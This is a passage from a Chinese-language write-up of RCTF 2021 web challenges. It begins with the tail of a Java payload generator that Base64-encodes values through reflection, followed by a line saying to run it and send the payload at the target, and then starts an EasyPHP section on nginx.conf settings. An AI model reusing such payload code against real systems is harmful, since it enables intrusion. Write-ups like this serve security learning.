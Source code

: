 ```java
            String value = ((String)entity.get(key)).toString();
            if (encode) {
                Class Base64;
                Object Encoder;
                if (version.compareTo("1.9") >= 0) {
                    this.getClass();
                    Base64 = Class.forName("java.util.Base64");
                    Encoder = Base64.getMethod("getEncoder", (Class[])null).invoke(Base64, (Object[])null);
                    value = (String)Encoder.getClass().getMethod("encodeToString", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                } else {
                    this.getClass();
                    Base64 = Class.forName("sun.misc.BASE64Encoder");
                    Encoder = Base64.newInstance();
                    value = (String)Encoder.getClass().getMethod("encode", byte[].class).invoke(Encoder, value.getBytes("UTF-8"));
                    value = value.replace("\n", "").replace("\r", "");
                }
            }

            sb.append(value);
            sb.append("\",");
        }

        sb.setLength(sb.length() - 1);
        sb.append("}");
        return sb.toString();
    }
}

```

运行main产生payload打过去就行。

![image-20211103180443494](RCTF2021 Web复现.assets/image-20211103180443494.png)









# EasyPHP

先分析一下nginx.conf，也是一个一个查的来好好的学一波。

listen：监听设置。



server_name：设置虚拟主机的名称，域名，可以通配符、正则。

如果当一个名称匹配多个 server 的是时候，匹配优先级如下：
